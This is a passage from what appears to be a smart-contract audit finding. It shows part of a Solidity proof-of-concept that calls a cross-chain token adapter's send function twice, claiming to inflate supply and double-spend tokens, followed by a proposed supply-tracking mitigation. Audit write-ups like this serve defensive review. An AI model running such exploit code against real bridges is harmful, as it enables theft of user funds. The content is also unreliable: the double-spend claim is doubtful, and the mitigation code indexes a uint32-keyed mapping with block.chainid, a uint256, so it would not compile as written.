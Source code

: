 ```solidity
            IOFTAdapter(adapter).send(param, MessagingFee(0, 0), address(this));
        }
        
        // 3. Result
        // Chain A: 1000 tokens locked
        // Chain B: 1000 tokens received
        // Chain C: 1000 tokens received
        // Total supply: 3000 tokens (inflated)
    }
    
    function demonstrateDoubleSpend(address adapter) external {
        // 1. Send tokens to Chain B
        SendParam memory param1 = SendParam({
            dstEid: CHAIN_B,
            to: bytes32(uint256(uint160(address(this)))),
            amountLD: 1000,
            minAmountLD: 1000,
            extraOptions: "",
            composeMsg: "",
            oftCmd: ""
        });
        
        // First transfer locks tokens
        IOFTAdapter(adapter).send(param1, MessagingFee(0, 0), address(this));
        
        // 2. Before Chain B confirms, send to Chain C
        SendParam memory param2 = param1;
        param2.dstEid = CHAIN_C;
        
        // Second transfer uses same tokens
        IOFTAdapter(adapter).send(param2, MessagingFee(0, 0), address(this));
        
        // Result: Same tokens spent twice
    }
}
```

### Recommended Mitigation
1. Implement global supply tracking:
```solidity
contract OFTAdapter {
    struct SupplyState {
        uint256 lockedAmount;
        uint256 mintedAmount;
        uint256 lastUpdate;
    }
    
    mapping(uint32 => SupplyState) public chainSupply;
    uint256 public immutable maxGlobalSupply;
    
    event SupplyUpdated(uint32 chainId, uint256 locked, uint256 minted);
    
    function _debit(
        address _from,
        uint256 _amountLD,
        uint256 _minAmountLD,
        uint32 _dstEid
    ) internal virtual override returns (uint256 amountSentLD, uint256 amountReceivedLD) {
        // Update source chain supply
        chainSupply[block.chainid].lockedAmount += _amountLD;
        require(chainSupply[block.chainid].lockedAmount <= maxGlobalSupply, "Exceeds max supply");
        
        // Execute transfer
```